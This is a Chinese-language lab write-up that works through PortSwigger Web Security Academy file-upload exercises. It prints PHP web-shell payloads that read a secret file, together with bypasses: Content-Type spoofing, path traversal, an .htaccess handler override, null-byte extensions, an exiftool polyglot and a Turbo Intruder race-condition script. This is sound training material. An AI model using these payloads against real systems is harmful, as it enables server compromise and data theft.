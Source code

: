 
## Remote code execution via web shell upload
```
To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`
```

使用给定的账户密码登陆，点击上传头像的按钮，上传php文件：
```php
1. `<?php echo file_get_contents('/home/carlos/secret'); ?>`
```

![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250714172911462.png)

返回并访问上传的文件链接：
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250714173015727.png)

---
## Web shell upload via Content-Type restriction bypass
使用账户密码的登陆并上传php shell：`<?php echo file_get_contents('/home/carlos/secret'); ?> `，显示：
```
Sorry, file type application/x-php is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.
```

再次上传，抓包并修改MIME
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250714182527264.png)

```
The file avatars/mm3.php has been uploaded.
```

访问上传成功的php文件得到：
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250714182643729.png)

---
## Web shell upload via path traversal
上传文件，修改文件名为`..%2fmm3.php`
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250714184750372.png)

则上传文件访问路径从`/files/avatars/..%2fmm3.php`变为`/files/mm3.php`
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250714184946038.png)


---
## Web shell upload via extension blacklist bypass

上传php文件提示无法上传
```
Sorry, php files are not allowed Sorry, there was an error uploading your file.
```

重新上传、抓包修改后缀为php5，可以上传，但是访问页面空白，说明没有解析
尝试上传`.htaccess`文件，并设置``AddType application/x-httpd-php .abc``,即会将`.abc`的后缀文件解析为php文件：
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250714190428691.png)

再次上传`<?php echo file_get_contents('/home/carlos/secret'); ?>`的shell并修改后缀为abc:
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250714190549141.png)

---
## Web shell upload via obfuscated file extension
上传php 文件提示如下：
```
Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.
```

将后缀修改为`mm3.php.png`，成功上传，但是无法执行命令
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250714191406698.png)

那么，再次上传并使用`%00`进行截断：
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250714191528381.png)

![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250714191603639.png)

---
## Remote code execution via polyglot web shell upload

上传php文件，提示错误：
```
Error: file is not a valid image Sorry, there was an error uploading your file.
```

根据本题目的提示，我们执行下面命令：
```bash
`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" ./beef.png -o polyglot.php`
```

然后上传polyglot.php并访问:
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250714200027000.png)

---
## Web shell upload via race condition

直接登陆并上传php文件，提示：
```
Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.
```

查看题目源码：
```php
<?php $target_dir = "avatars/"; $target_file = $target_dir . $_FILES["avatar"]["name"]; // temporary move 
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file); 
if (checkViruses($target_file) && checkFileType($target_file)) {
echo "The file ". htmlspecialchars( $target_file). " has been uploaded."; } 
else { 
unlink($target_file); echo "Sorry, there was an error uploading your file."; http_response_code(403); 
} 
function checkViruses($fileName) { 
// checking for viruses ... 
} 
function checkFileType($fileName) {
$imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION)); if($imageFileType != "jpg" && $imageFileType != "png") { echo "Sorry, only JPG & PNG files are allowed\n"; return false; 
} 
else 
{ return true; } 
} ?>
```

文件在被删除之前时间极短，手动访问肯定是来不及的
安装Turbo Intruder插件，然后上传shell脚本并拦截，转发到Turbo Intruder,并为Turbo Intruder编写python脚本代码:
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250717110933245.png)

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=20,)

    request1 = '''POST /my-account/avatar HTTP/2
Host: 0ac5001e043d488093ac75f400d90071.web-security-academy.net
Cookie: session=6ceEgnzGZDPJhdUxnMhJ9owlAhxv4ffH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------23366847436050054392067369933
Content-Length: 540
Origin: https://0ac5001e043d488093ac75f400d90071.web-security-academy.net
Dnt: 1
Sec-Gpc: 1
Referer: https://0ac5001e043d488093ac75f400d90071.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------23366847436050054392067369933
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------23366847436050054392067369933
Content-Disposition: form-data; name="user"

wiener
-----------------------------23366847436050054392067369933
Content-Disposition: form-data; name="csrf"

ccPKgZVp4rUg28kBKQVVVFv0eDbXBkf3
-----------------------------23366847436050054392067369933--
'''

    request2 = '''GET /files/avatars/shell.php HTTP/2
Host: 0ac5001e043d488093ac75f400d90071.web-security-academy.net
Cookie: session=6ceEgnzGZDPJhdUxnMhJ9owlAhxv4ffH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Dnt: 1
Sec-Gpc: 1
Referer: https://0ac5001e043d488093ac75f400d90071.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
If-Modified-Since: Thu, 17 Jul 2025 03:02:55 GMT
If-None-Match: "39-63a173effa107"
Priority: u=5, i
Te: trailers


    '''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

实际功能就是上传shell,然后在被检查删除之前拼手速去请求暂时没有被删除的shell：
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250717113217808.png)
